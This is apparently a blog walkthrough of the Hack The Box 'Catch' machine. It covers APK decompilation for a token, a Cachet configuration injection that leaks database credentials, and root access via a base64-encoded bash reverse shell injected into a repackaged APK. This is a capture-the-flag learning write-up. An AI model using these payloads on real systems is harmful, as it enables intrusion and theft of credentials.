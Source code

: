 ```yaml
---
title: 'HTB - Catch'
author: paincakes
date: 2023-06-02 20:55:00 +0800
categories: [HTB, Medium]
tags: [linux, htb-walkthrough]
---
```



![Box-Info](https://paincakes.sirv.com/Images/HTB/Catch/Info.png)

# Summary
The “Catch” Machine in the hack the box was medium leveled fun box. This machine had hosted three different websites on different ports, From the first webpage we will download and apk file and decompile it for enumeration and get a token which will used to log in another website, that website will be hosting cachet server which is vulnerable to command injection. From exploiting that website, we will obtain the credentials of another user, which will be used to access the SSH service. We will have restricted access to the machine but after enumerating the remote machine further we will find one misconfigured filed owned by root. Which will be exploited to spawn the reverse shell with root permission.


## NMAP Scanning

As always starting the enumeration with nmap, since the nmap result was too lengthy I snipped out some parts.

![nmap](https://paincakes.sirv.com/Images/HTB/Catch/nmap1.png)
![nmap](https://paincakes.sirv.com/Images/HTB/Catch/nmap2.png)
![nmap](https://paincakes.sirv.com/Images/HTB/Catch/nmap3.png)

From the nmap result we can see that,
- Port 22 running SSH Service
- Port 80/5000/8000 running HTTP services
- Port 3000 running some Unknown service.

## Web Server Enumeration

Website being hosted on port 80 was a static webpage with nothing much to enumerate. But we could download an apk file which can be analyzed.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/webpage.png)

On port 5000, it contained a login page.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/port8000.png)

On port 8000, it also contained a incidents report page, and it also had a login page when in the dashboard option on the bottom of the page.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/actualport8000.png)
![catch](https://paincakes.sirv.com/Images/HTB/Catch/loginport8000.png)

After enumerating the webpages manually, I used gobuster to enumerate the hidden pages on all the websites being hosted on different ports.
There was nothing informative to be found on webpage which was being hosted on port 80.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/gobuster80.png)

There were lots of hidden webpages on the website, which was being hosted on port 5000, looking at the status code, we can assume that for accessing those webpages we need to be logged in.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/gobuster5000.png)

As I had guessed to access the webpage we need to be logged in, or else it shows “unauthorized” error.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/unauth.png)

I also used gobuster on website which being hosted on port 8000 and it also did not have any useful information.

## Analyzing the APK 

Firstly, I used `exiftool` to analyze the apk, but it did not have much interesting information. So, I used apktool to decompile the android application and enumerate it for gathering more interesting information.

`apktool -d <apk_file>`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/decomileapk.png)

In the `/res/values` directory of the decompiled apk folder, we can find `strings.xml` which contained and interesting token string.
We could use this token to authenticate to the website on port 5000 which was showing `unauthenticated` error, and for that we can use `curl`.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/token.png)

`curl -H 'Authorization: bearer <token>' 'http://10.10.11.150:5000/users’`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/users.png)

It did show the users and its id, other than that it didn’t show interesting information, and the result looked unmanaged and hard to analyze, so I used Burpsuite to intercept the further requests and view data in managed way. In the “rooms” page I found an interesting room name.

`curl -H 'Authorization: bearer <token>' 'http://10.10.11.150:5000/rooms’ -x <proxy>`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/curlroomsproxy.png)

The first room’s name was **Cachet Updates and Maintenance**, which could contain interesting information.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/roomsburp.png)

We could try accessing messages of that room using curl.

`curl -H ‘Authorization: bearer <token>’ ‘http://10.10.11.150/rooms/<room_id>/messages’ -x <proxy>`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/curlmsgproxy.png)

From that request, we could read the conversation of the **admin** and another user **john** and after reading the conversation further we can see the admin provides credentials for account for **John**.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/creds.png)

## Cachet Server Exploitation

I tried using the credentials on website on port 5000 but it said it was invalid. But using the same creds on login page of port 8000, it was successful. We could now access the Dashboard of the user **John**.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/johndashboard.png)

After logging in, I enumerated the dashboard thoroughly, but could not find much information. Since we know it is a cachet server, I searched for its vulnerabilities and found one. According to this [article](https://blog.sonarsource.com/cachet-code-execution-via-laravel-configuration-injection), we can intercept the EMAIL package and modify the content to the injection statement. 
I tried modifying the **Mail from Address** field as it already contained some value from the database, so I modified the content on that field to **${DB_USERNAME}**, saved the configuration and logged out. After logging in again. we will see **Will** on the field where we injected the payload and got the username.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/dbpassword.png)
![catch](https://paincakes.sirv.com/Images/HTB/Catch/dbuser.png)

Let’s try the same thing for obtaining password, Modify the “Mail from Address” field to “${DB_PASSWORD}” log in again after logging out and we will obtain the password for the user “Will”.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/password.png)

As from the `nmap` result we could see that the SSH service was open, so let’s trying access the SSH service as user Will.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/sshwill.png)

## Prvilege Escalation

After accessing the SSH service as user Will, the permissions were quite restricted, we could not access sudo privilege as user will and did not find anything interesting in SUID bits as well. So, I enumerated the machine with `Linpeas`.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/linpeas.png)

From the result of Linpeas, I found an interesting file which was owned by root and readable by only Will user.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/readable%20files.png)

We can now analyze the file `opt/mdm/verify.sh` and find one interesting function,
In the function `app_check()`, it searches for the **APP_NAME** in `/res/values/strings.html` inside of the apk file. This can be vulnerable to command injection. We can try injecting base64 encoded bash reverse shell command injection.

`echo ‘bin/bash -i >& dev/tcp/<ip>/<port> 0>&1’ | base64`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/base64encode.png)
![catch](https://paincakes.sirv.com/Images/HTB/Catch/payload.png)

Now, we need to add this payload in the line 30 (app_name) in `/res/values/strings.xml` in the application directory we decompiled earlier.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/payloadkept.png)

We will now recompile the file using apktool.jar module from java which can be downloaded from [here](https://github.com/iBotPeaches/Apktool/releases/download/v2.6.1/apktool_2.6.1.jar).
Let’s recompile the file and building a new apk file.

`java -jar apktool.jar b -f -d <decompiled_directory> -o <output_filename>`

![catch](https://paincakes.sirv.com/Images/HTB/Catch/catch2.0.png)

After building the new apk file, we will need to sign the apk file and verify it before sending it to the remote machine.

```
keytool -genkey -v -keystore my-release-key.keystore -alias alias_name -keyalg RSA -keysize 2048 -validity 10000
```

![catch](https://paincakes.sirv.com/Images/HTB/Catch/keytool.png)

Just enter your name and leave other fields empty, and at last confirm the configuration and send “y” to generate the signature file.
Now, we can start the python http server and host the file to be downloaded on the remote machine from the SSH shell of user Will.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/catchinwill.png)

Just copy the new apk file on the `/opt/mdm/apk_bin` directory and start the netcat listener on our local machine. After a while, we will get the root shell in our netcat listener and the root flag on the “root” directory.

![catch](https://paincakes.sirv.com/Images/HTB/Catch/rootflag.png)



